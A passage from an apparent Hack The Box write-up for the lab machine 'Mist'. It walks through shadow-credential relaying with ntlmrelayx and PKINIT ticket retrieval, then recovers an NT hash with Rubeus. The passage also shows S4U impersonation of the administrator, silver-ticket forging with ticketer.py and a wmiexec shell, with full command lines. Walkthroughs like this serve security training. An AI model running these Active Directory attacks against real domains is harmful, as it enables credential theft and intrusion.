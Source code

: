 <img src="https://i.imgur.com/mQCL4Um.png"/>

This probably because the value is already set and for some reason we cannot overwrite this property the value is cleared, there's another variation of ntlmrelayx which supports both clearing and setting the value of msDS-KeyCredentialLink using an interactive ldap shell, so realying it again but this time using this version  https://github.com/fortra/impacket/pull/1402

<img src="https://i.imgur.com/ihyRyko.png"/>

We now have the certificate and the password, using gettgtpkinit from PKINITools we can retrieve MS01 aeskey and TGT

<img src="https://i.imgur.com/Hrdeg8z.png"/>

NTHash can be recovered as well either by certipy auth or using Rubeus

```bash
Rubeus.exe asktgt /user:MS01$ /domain:mist.htb  /certificate:./orGRT9Km.pfx /password:aCSx4xhH2ZqvYxSAseyK /getcredentials /nowrap
```

<img src="https://i.imgur.com/eBQGeSf.png"/>
<img src="https://i.imgur.com/ZEbhpJ7.png"/>

Impersonating as local admin on MS01 using HOST service

```bash
Rubeus.exe s4u /self /user:MS01$ /rc4:4A74FC05400345D580CF58AEC3E6D833 /altservice:host/ms01.mist.htb /impersonateuser:administrator /ptt /nowrap
```

<img src="https://i.imgur.com/l7QwWWN.png"/>

Converting this kirbi (base64) ticket into ccache which is supported by impacket

<img src="https://i.imgur.com/ElECGBU.png"/>

And using `wmiexec.py` to get an interactive shell as admin

<img src="https://i.imgur.com/UwD8gZ3.png"/>

## Using ticketer.py

This can also be done purely through linux
```bash
proxychains ticketer.py -domain-sid S-1-5-21-1045809509-3006658589-2426055941 -domain mist.htb -spn HOST/MS01.mist.htb -nthash 4A74FC05400345D580CF58AEC3E6D833 -user-id 500 Administrator 
```

<img src="https://i.imgur.com/0hSvaQI.png"/>
<img src="https://i.imgur.com/O8iA35N.png"/>

From bloodhound we saw OP_Sharon is member of Operatives group who has ReadGMSA permission on SVC_CA$ and has PSRemote on DC, so Sharon on MS01 might be interesting, checking the Documents directory we have sharon.kdbx file which is a keepass database file that contains passwords

